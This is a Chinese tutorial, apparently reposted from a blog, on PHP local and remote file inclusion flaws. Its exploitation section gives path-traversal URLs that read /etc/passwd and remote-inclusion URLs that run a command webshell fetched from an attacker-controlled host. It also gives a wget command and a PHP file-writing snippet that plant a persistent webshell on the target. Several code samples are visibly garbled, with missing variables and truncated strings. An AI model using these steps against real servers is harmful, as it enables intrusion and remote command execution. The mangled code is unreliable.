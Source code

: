 # 远程包含和本地包含漏洞的原理

原文:https://blog.csdn.net/iiprogram/article/details/2349322
本文档仅整理格式

`http://www.aaa.com/index.php?read=../../../../../../../../../../../../../../etc/passwd`

---

# 原理

首先，我们来讨论包含文件漏洞,首先要问的是,什么才是"远程文件包含漏洞"？回答是：服务器通过 php 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可去包含一个恶意文件，而我们可以构造这个恶意文件来达到邪恶的目的。几乎所有的 cgi 程序都有这样的 bug，只是具体的表现方式不一样罢了。

---

# 涉及到的危险函数

- include() && require() 语句:包括并运行指定文件。

    这两种结构除了在如何处理失败之外完全一样。include() 产生一个警告而 require() 则导致一个致命错误。换句话说，如果你想在遇到丢失文件时停止处理页面就用 require()。include() 就不是这样，脚本会继续运行。

    如果"allow_url_fopen"在 PHP 中被激活（默认配置），也可以用 URL（通过 HTTP 或者其它支持的封装协议）而不是本地文件来指定要被包括的文件。如果目标服务器将目标文件作为 PHP 代码解释，则可以用适用于 HTTP GET 的 URL 请求字符串来向被包括的文件传递变量。

- require_once()　＆＆　include_once()

    require_once () 和 include_once() 语句在脚本执行期间包括并运行指定文件。此行为和 require() 语句类似，唯一区别是如果该文件中的代码已经被包括了，则不会再次包括。适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

---

# 为什么要包含文件

程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件进行包含调用。在 php 里，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程：如果你想在 main.php 里包含 share.php,我将这样写 include("share.php")就达到目的，然后就可以使用 share.php 中的函数了，像这个写死需要包含的文件名称的自然没有什么问题，也不会出现漏洞，那么问题到底是出在哪里呢？
有的时候可能不能确定需要包含哪个文件，比如先来看下面这个文件 index.php 的代码：

```php
if ([page]) {
include GET[page];
} else {
include "home.
}
```

很正常的一段 PHP 代码，它是怎么运作的呢？这里面涉及到 GET 的意义，我就不打算讲了（要不又能写篇 HTTP 的文章了），如果你还不了解 GET，POST,等，那么你需要再 Google 一些相关的资料好好补一补了。
上面这段代码的使用格式可能是这样的：`http://www.1steam.cn/php/index.php?page=main.php` 或者 `http://www.1steam.cn/php/index.php?page=downloads.php` ,结合上面代码，简单说下怎么运作的：

1. 提交上面这个 URL，在 index.php 中就取得这个 page 的值（_GET[page]）。
2. 判断GET[page]是不是空，若不空（这里是 main.php）就用 include 来包含这个文件。
3. 若_GET[page]空的话就执行else，来 nclude　home.php　这个文件。

---

# 为什么会产生漏洞

你也许要说，这样很好呀，可以按照URL来动态包含文件，多么方便呀，怎么产生漏洞的呢？问题的答案是：我们不乖巧，我们总喜欢和别人不一样，我们不会按照他的链接来操作，我们可能想自己写想包含（调用）的文件，比如我们会随便的打入下面这个 URL：`http: //www.1steam.cn/php/index.php?page=hello.php` 。然后我们的 index.php 程序就傻傻按照上面我们说得步骤去执行：取 page 为 hello.php，然后去 include(hello.php)，这时问题出现了，因为我们并没有 hello.php 这个文件，所以它  include 的时候就会报警告，类似下列信息：

Quote:

`Warning: include(hello.php) [function.include]: failed to open stream: No such file or directory in /vhost/wwwroot/php/index.php on line 3`

`Warning: include() [function.include]: Failed opening 'hello.php' for inclusion (include_path='.:') in /vhost/wwwroot/php/index.php on line 3`

注意上面的那个 Warning 就是找不到我们指定的 hello.php 文件，也就是包含不到我们指定路径的文件；而后面的警告是因为前面没有找到指定文件，所以包含的时候就出警告了。

---

# 怎么利用

上面可以看到，问题出现了，那么我们怎么利用这样的漏洞呢，利用方法其实很多，但是实质上都是差不多的，我这里说三个比较常见的利用方法：

1. 包含读出目标机上其它文件

    由前面我们可以看到，由于对取得的参数 page 没有过滤，于是我们可以任意指定目标主机上的其它敏感文件，例如在前面的警告中，我们可以看到暴露的绝对路径(vhost/wwwroot/php/)，那么我们就可以多次探测来包含其它文件，比如指定 URL 为：`http: //www.1steam.cn/php/index.php?page=./txt.txt` 可以读出当前路径下的 txt.txt 文件，也可以使用.. /../进行目录跳转（在没过滤../的情况下）；也可以直接指定绝对路径，读取敏感的系统文件，比如这个 URL：`http: //www.1steam.cn/php/index.php?page=/etc/passwd` ，如果目标主机没有对权限限制的很严格，或者启动 Apache 的权限比较高，是可以读出这个文件内容的。否则就会得到一个类似于：open_basedir restriction in effect. 的 Warning。

2. 包含可运行的PHP木马

    如果目标主机的"allow_url_fopen"是激活的（默认是激活的，没几个人会修改），我们就可以有更大的利用空间，我们可以指定其它 URL 上的一个包含 PHP 代码的 webshell 来直接运行，比如，我先写一段运行命令的PHP代码（加了注释，应该看得懂），如下保存为 cmd.txt（后缀不重要，只要内容为PHP格式就可以了）。

    以上这个文件的作用就是接受 cmd 指定的命令，并调用 passthru 函数执行，把内容返回在 1.S.T 之间。把这个文件保存到我们主机的服务器上（可以是不支持 PHP 的主机），只要能通过 HTTP 访问到就可以了，例如地址如下：`http: //www.1ster.cn/cmd.txt` ,然后我们就可以在那个漏洞主机上构造如下URL来利用了：`http: //www.1steam.cn/php/index.php?page=http://www.1ster.cn/cmd.txt?cmd=ls` ,其中 cmd 后面的就是你需要执行的命令，其它常用的命令（以*UNIX为例）如下：

    Quote:
    ```
    ll 列目录、文件（相当于Windows下dir)
    pwd 查看当前绝对路径
    id whoami 查看当前用户
    wget　下载指定 URL 的文件
    ```

    上面的方法就是得到一个 Webshell 了（虽然这个 PHP 文件不在目标机上，但是它确实是个 Webshell，不是么？呵呵）

3. 包含一个创建文件的 PHP 文件

    也许有的人认为还是得到目标机上的一个真实的 Webshell 比较放心，万一哪天人家发现这儿个包含漏洞修补了，我们就不能再远程包含得到上面的那个"伪 "Webshell 了，不是么？可以理解这个心态，我们继续。得到一个真实的 Webshell，我们也说两种常见的方法：

    1. 使用 wget 之类的命令来下载一个 Webshell

        这个比较简单，也很常用，在上面我们得到的那个伪 webshell 中，我们可以执行命令，那么我们也可以调用系统中的一个很厉害的角色，wget，这个命令的强大你可以google下，参数一大堆，绝对搞晕你，呵呵，我们不需要那么复杂，我们就使用一个-O（--output- document=FILE，把文档写到 FILE 文件中） 就可以了，呵呵。

        前提是你在按照前面的步骤放一个包含 PHP 代码的 Webshell 在一个可以通过 HTTP 或者 FTP 等可以访问的地方，比如：`http: //www.1ster.cn/1stphp.txt` ,这个文件里写的就是 Webshell 的内容。然后我们在前面得到的伪 Webshell 中执行如下的 URL：`http://www.1steam.cn/php/index.p ... w.1ster.cn/cmd.txt?cmd=wget http://www.1ster.cn/1stphp.txt -O 1stphp.php` ，如果当前目录可写，就能得到一个叫做 1stphp.php 的 Webshell了；如果当前目录不可写，还需要想其它的办法。

    2. 使用文件来创建

        前面的 wget 可能会遇到当前目录不能写的情况；或者目标主机禁用了（或者没装）这个命令，我们又需要变通一下了，我们可以结合前面的包含文件漏洞来包含一个创建文件（写文件）的 PHP 脚本，内容如下：

        ```php
        $f=file_get_contents("www.1ster.cn/1stphp.打开指定路径的文件流")
        $=fopen("./upload/1st.php","a"); 　　　　//寻找一个可以的目录，创建一个文件
        fwrite (,$f); 　//把前面打开的文件流写到创建的文件里
        fclose(); 　　　//关闭保存文件
        ?>
        ```

        还是写入我们上面用 wget 下载的那个 php 文件，但是我们改进了方法，用 PHP 脚本来实现，可以使用上面的 cmd.php?cmd=ll 查找可以写的目录，比如这里的 upload，然后把文件创建在这个目录下：./upload/1st.php。然后就得到我们的 Webshell 了。
